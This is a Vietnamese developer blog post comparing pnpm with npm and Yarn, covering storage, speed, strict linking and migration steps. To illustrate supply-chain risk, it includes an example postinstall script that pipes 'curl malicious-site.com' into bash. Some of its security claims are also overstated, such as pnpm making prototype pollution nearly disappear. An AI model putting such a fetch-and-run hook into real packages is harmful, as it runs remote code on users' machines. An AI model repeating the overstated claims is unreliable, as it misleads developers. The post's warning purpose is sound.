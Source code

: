 ﻿---
title: "PNPM – Khi Dev Không Cần Phải Chờ NPM “đi chợ” Giúp Mình Nữa"
description: "Khi thời gian cài đặt lâu như mẹ “đi chợ”, đã đến lúc để pnpm cáng đáng nhiệm vụ!"
pubDate: "2025-10-29"
published: true
tags: ["pnpm", "npm", "tooling", "package manager"]
slug: "pnpm-khi-dev-khong-can-cho-npm-di-cho-giup-minh-nua"
author: "Hien Nguyen"
ogTitle: "PNPM – Khi Dev Không Cần Phải Chờ NPM đi chợ Giúp Mình Nữa"
ogDescription: "Khi thời gian cài đặt lâu như mẹ “đi chợ”, đã đến lúc để pnpm cáng đáng nhiệm vụ!"
pairSlug:
  en: "pnpm-when-devs-stop-waiting-for-npm"
---

# PNPM – Khi Dev Không Cần Phải Chờ NPM “Đi Chợ” Nữa

> “npm install” mà quạt CPU gào rú, disk sắp nổ tung — thì đã đến lúc bạn thử **pnpm**.

---

## Câu Chuyện Quen Thuộc

Bạn clone một repo, chạy lệnh:

```bash
npm install
```

Và rồi... chờ.  
Chờ mãi.  
Chờ hoài.

Rồi bạn thử **Yarn**, thấy nhanh hơn tí, nhưng vẫn phải tải cùng một package 10 lần cho 10 dự án khác nhau.  
Ổ cứng ngày càng phình to, thư mục `node_modules` nặng cả GB, và CI thì chạy chậm như rùa bò.

Đó là bức tranh trước khi **pnpm** xuất hiện.

---

## PNPM Khác Biệt Như Thế Nào Với NPM Và Yarn?

Tóm gọn: **pnpm sử dụng cách lưu dependency hoàn toàn khác biệt.**

| Cơ Chế          | NPM / Yarn                            | PNPM                                                                    |
| --------------- | ------------------------------------- | ----------------------------------------------------------------------- |
| Cách Lưu        | Copy riêng package cho từng dự án     | Sử dụng **global content-addressable store**, chỉ **symlink** vào dự án |
| Dung Lượng Disk | Nặng, lặp dữ liệu                     | Rất nhẹ, tiết kiệm ổ cứng                                               |
| Tốc Độ Cài Đặt  | Bình thường                           | **Nhanh hơn 2–3 lần** (nhờ cache + hard link)                           |
| Quản Lý Version | Theo từng dự án                       | Siêu chính xác nhờ **strict symlink resolution**                        |
| Bảo Mật Script  | **Tự động chạy `postinstall` script** | **Không tự động chạy trừ khi explicit**                                 |

---

## Bảo Mật – Điểm Làm PNPM Thực Sự “Đáng Tiền”

Đây là phần mà nhiều dev **chưa chú ý nhưng cực kỳ quan trọng**.

### Vấn Đề Của NPM/Yarn:

Khi chạy `npm install` hoặc `yarn install`,  
các package có thể **tự động chạy script** như:

```json
"scripts": {
  "postinstall": "curl malicious-site.com | bash"
}
```

Nếu không kiểm soát kỹ hoặc CI không sandbox, bạn vừa mở cửa cho mã độc chạy trên máy mình. Gần đây, các vụ lừa đảo kiểu này diễn ra thường xuyên: dev pull source Node.js từ repo lạ (thường qua bài test hoặc bài tập), chạy `npm i` là "toang" – mã độc tự chạy, quét env variables để steal API keys, GitHub tokens, AWS credentials, thậm chí lan truyền như worm. Ví dụ, tháng 9/2025, một loạt package phổ biến như chalk, debug bị compromise, dẫn đến hàng trăm package khác bị nhiễm, đánh cắp credentials từ môi trường dev. Worm "Shai-Hulud" đã tự replicate, ảnh hưởng hàng triệu install, khiến bao nhiêu key và tài khoản bay màu chỉ vì scripts auto-run. Đây là **vector tấn công phổ biến** (supply chain attack), đặc biệt với dev mới hoặc team không audit dependencies.

### PNPM Xử Lý Thông Minh Hơn:

- **Không tự động chạy script**, trừ khi bạn **explicitly cho phép**.
- Có thể bật `--ignore-scripts` mặc định trong `.npmrc`:
  ```bash
  pnpm install --ignore-scripts
  ```
- Giúp **ngăn chặn code độc hại** từ dependency bên thứ ba ngay từ đầu – pull repo lạ về, chạy `pnpm i` thì mã độc nằm im, không steal keys hay lan truyền.
- Ngoài ra, pnpm sandbox hóa `node_modules`, hạn chế **module A override module B** — các kiểu tấn công như _prototype pollution_ hay _dependency shadowing_ gần như biến mất.

> Nói cách khác: pnpm cài package, nhưng không “tin tưởng mù quáng” package đó – lý tưởng để tránh những vụ "toang" tài khoản gần đây.

---

## Tư Duy Thiết Kế Khác Biệt

### 1. “Global Store” – Ổ Đĩa Thông Minh

PNPM có một nơi lưu trữ toàn cục (mặc định: `~/.pnpm-store`).  
Mỗi package chỉ tồn tại **một bản duy nhất** — các dự án chỉ “link” tới đó.

```bash
# Lần đầu
pnpm install

# Lần sau (với dự án khác)
pnpm install   # Gần như tức thì, vì package đã có sẵn
```

### 2. “Strict Linking” – Không Để Dependency Tràn Lan

PNPM tạo `node_modules` theo cấu trúc “virtual store” riêng:  
Dependency chỉ access được những gì khai báo trong `package.json`.  
Điều này giúp:

- Tránh lỗi “hidden dependency” (import module không khai báo).
- Build reproducible, CI không lo “chạy tốt trên máy A, fail trên máy B”.

---

## Migration Nhanh Gọn

Nếu dự án đang dùng NPM/Yarn:

```bash
npm install -g pnpm
# Hoặc dùng corepack (Node 18+)
corepack enable pnpm
```

Chuyển sang dùng:

```bash
pnpm install
pnpm run dev
```

Tất cả script và config vẫn hoạt động bình thường.  
Bạn sẽ thấy tốc độ khác biệt ngay từ lần đầu.

---

## Khi Nào Chưa Cần Vội Chuyển Sang PNPM?

- Team đang dùng **workspace Yarn 1 + custom plugin** — cần test kỹ.
- Hệ thống CI/CD cũ chưa hỗ trợ pnpm cache.
- Một số tool (hiếm) vẫn assume cấu trúc `node_modules` truyền thống.

Tuy nhiên, với **Node 18+ và corepack**, việc dùng pnpm giờ đã cực kỳ mượt mà.  
Cả Vercel, Turborepo, NX, Cloudflare Workers đều hỗ trợ sẵn.

---

## Tổng Kết

|                 | NPM               | Yarn         | PNPM                                |
| --------------- | ----------------- | ------------ | ----------------------------------- |
| Tốc Độ          | Chậm              | Nhanh hơn    | Nhanh nhất                          |
| Dung Lượng Disk | Nặng              | Trung bình   | Rất nhẹ                             |
| An Toàn Script  | Chạy tự động      | Chạy tự động | **Không auto-run**                  |
| Cache Toàn Cục  | Không             | Một phần     | Đầy đủ                              |
| Isolation       | Thấp              | Trung bình   | **Cao (symlink isolation)**         |
| Phù Hợp Với     | Mọi dự án nhỏ/lớn | Trung bình   | **Dev chuyên nghiệp / CI hiện đại** |

---

## Tài Liệu Chính Thức

- [pnpm.io](https://pnpm.io)
- [Cấu trúc store của pnpm](https://pnpm.io/symlinked-node-modules-structure)
- [Corepack & pnpm setup](https://nodejs.org/api/corepack.html)

---

_Viết bởi một dev từng thấy `node_modules` nặng hơn cả source code.  
Giờ ổ cứng sạch sẽ, build nhanh chóng, CI êm ru – nhờ pnpm._

